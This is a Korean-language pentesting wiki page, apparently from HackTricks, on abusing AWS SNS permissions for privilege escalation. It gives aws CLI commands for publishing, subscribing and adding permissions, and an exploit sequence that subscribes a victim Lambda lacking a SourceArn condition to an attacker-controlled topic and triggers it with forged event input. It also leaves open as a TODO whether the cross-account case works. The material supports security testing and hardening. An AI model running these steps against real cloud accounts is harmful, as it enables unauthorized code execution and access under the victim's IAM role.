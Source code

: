 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

자세한 내용은 다음을 확인하세요:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

공격자는 SNS topic에 악성 또는 원치 않는 메시지를 보낼 수 있으며, 이는 데이터 손상, 의도하지 않은 동작 유발, 또는 리소스 고갈을 초래할 수 있습니다.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Potential Impact**: 취약점 악용, 데이터 손상, 의도치 않은 동작 또는 자원 소진.

### `sns:Subscribe`

공격자는 SNS topic을 구독할 수 있어 메시지에 무단으로 접근하거나 해당 topic에 의존하는 애플리케이션의 정상 동작을 방해할 수 있습니다.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potential Impact**: 메시지(민감한 정보 포함)에 대한 무단 접근, 영향을 받은 SNS topic에 의존하는 애플리케이션의 서비스 중단.

### `sns:AddPermission`

공격자는 권한이 없는 사용자나 서비스에 SNS topic에 대한 접근을 부여하여 잠재적으로 추가 권한을 획득할 수 있습니다.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Potential Impact**: 토픽에 대한 무단 접근, 메시지 노출 또는 무단 사용자나 서비스에 의한 토픽 조작, 토픽에 의존하는 애플리케이션의 정상 동작 중단.


### 와일드카드 SNS 권한을 악용하여 Lambda 호출 (no `SourceArn`)

Lambda 함수의 리소스 기반 정책이 `sns.amazonaws.com`이 소스 토픽(`SourceArn`)을 제한하지 않고 호출하도록 허용하면, 어떤 SNS topic(심지어 다른 계정의 것이라도)도 구독하여 해당 함수를 트리거할 수 있습니다. 기본 SNS 권한을 가진 공격자는 공격자가 제어하는 입력으로 Lambda를 해당 IAM 역할로 실행하도록 강제할 수 있습니다.

> [!TIP]
> TODO: 이것이 실제로 cross-account(교차 계정)에서 가능한가?

전제 조건
- 피해자 Lambda 정책에는 아래 예시와 같은 statement가 포함되어 있으며, `SourceArn` 조건이 없습니다:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
악용 단계(동일 계정 또는 교차 계정)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Potential Impact**: 피해자 Lambda는 IAM role로 실행되어 attacker-controlled input을 처리합니다. 이로 인해 권한에 따라 함수가 민감한 작업(예: write to S3, access secrets, modify resources)을 수행하도록 악용될 수 있습니다.

{{#include ../../../../banners/hacktricks-training.md}}
